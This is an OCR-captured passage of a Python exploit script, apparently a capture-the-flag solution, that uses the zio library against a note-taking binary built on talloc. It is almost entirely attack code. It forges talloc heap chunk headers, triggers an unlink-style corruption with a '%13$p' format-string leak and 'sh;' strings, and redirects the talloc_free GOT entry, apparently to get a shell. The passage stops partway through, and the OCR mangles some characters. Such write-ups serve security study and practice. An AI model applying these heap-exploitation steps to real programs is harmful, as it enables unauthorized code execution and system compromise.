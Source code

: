 ```
        io.writeline(content[count*48:])
 
def delete(io, id):
    io.read_until('&gt;&gt;')
    io.writeline('4')
    io.read_until(':')
    io.writeline(str(id))
 
def change(io, id, title):
    io.read_until('&gt;&gt;')
    io.writeline('5')
    io.read_until(':')
    io.writeline(str(id))
    io.read_until(':')
    io.writeline(title)
 
def exp(target):
    io = zio(target, timeout=10000, print_read=COLORED(RAW, 'red'), 
             print_write=COLORED(RAW, 'green'))
    add(io, '%13$p', 0x100, '111') #0x603070 0x603110   #0
    add(io, '222', 0x100, '222') #0x603280 0x603320   #1
    add(io, '333', 0x100, '333') #0x603490 0x603530   #2
    add(io, '444', 0x100, '444') #0x6036a0 0x603740   #3
    add(io, 'sh;', 0x100, '555') #0x6038b0 0x603950   #4
    add(io, '666', 0x100, '666') #0x603ac0 0x603b60   #5
 
    delete(io, 1)
    delete(io, 2)
 
    heap_ptr = 0x6020f0
    payload = l64(0) + l64(0x211) +l64(heap_ptr-0x18)+l64(heap_ptr-0x10)
    payload = payload[:-1]
 
    add(io, payload[:-1], 0x300, '777') #0x603280 0x603320   #6
    add(io, 'sh;', 0x100, '888')
 
    #io.gdb_hint()
 
    offset = 0x603490 - 0x603320
    #                      size        next    prev     parent
    fake_head1 = l64(0x210)+l64(0x90)+ l64(0) +l64(0)+ l64(0x603a60)
                # child   refs  descutor   name      size       flags                   pool   padding
    fake_head2 = l64(0)+l64(0)+l64(0)+l64(0x400dc4)+l64(0x100)+l64(0x00000000e8150c70)+l64(0)+l64(0)+l64(0)
    fake_head2 = fake_head2.ljust(0x90-0x28, 'x00')
    fake_head2 += l64(0) + l64(0x21) + 'x00'*0x10 + l64(0) + l64(0x21)
 
    fake_head1 = fake_head1[:-6]
    payload = 'x00' + l64(0)+l64(0xa1)+l64(0)+l64(0)+l64(0)+l64(0x6034a0)
    payload = payload[:-6]
    edit(io, 4, 0x100-1, payload)
    edit2(io, 6, offset, fake_head1)
    edit2(io, 6, offset+0x28, fake_head2)
 
    delete(io, 5)
 
    talloc_free_got = 0x602048
    print_plt = 0x4007E0
 
    title = l64(talloc_free_got) + l64(0) + l64(0) + l64(0x6020d0)
    title = title[:-2]
    change(io, 6, title)
```
